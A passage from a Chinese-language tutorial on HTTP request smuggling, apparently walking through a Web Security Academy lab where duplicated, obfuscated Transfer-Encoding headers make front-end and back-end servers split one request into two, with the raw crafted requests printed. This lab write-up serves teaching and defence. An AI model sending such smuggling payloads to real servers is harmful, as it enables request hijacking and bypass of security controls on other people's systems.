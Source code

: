 这里同上一个场景一样，需要在最后添加两个 CRLF：

```bash
0\r\n
\r\n
```

我们就可以得到如下图的响应：

[![](assets/1698897445-312a3d9168d4ae80303395afe5c08dea.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123002425.png)

我们可以看到这里是用了两个 TE 字段，并且第二个 TE 字段值非标准值，这里 Front 选择对第一个 TE 进行优先处理，整个请求则为正常请求，会转发给 Backend 服务器，而 Backend 服务器以第二个 TE 进行优先处理，而第二个 TE 值非正常，则会取 CL 字段进行处理，这样这个请求就会因为 CL 字段设置的值 4 而被拆分为两个请求。

第一个请求：

```bash
POST / HTTP/1.1
Host: acfd1f201f5fb528809b582e004200a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=9swxitdhJRXeFhq77wGSU7fKw0VTiuzQ
Cache-Control: max-age=0
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
```

第二个请求：

```bash
GPOST / HTTP/1.1

0
```

这样就发送了一个无法识别的 HTTP Method GPOST 请求。

## Attack Surface
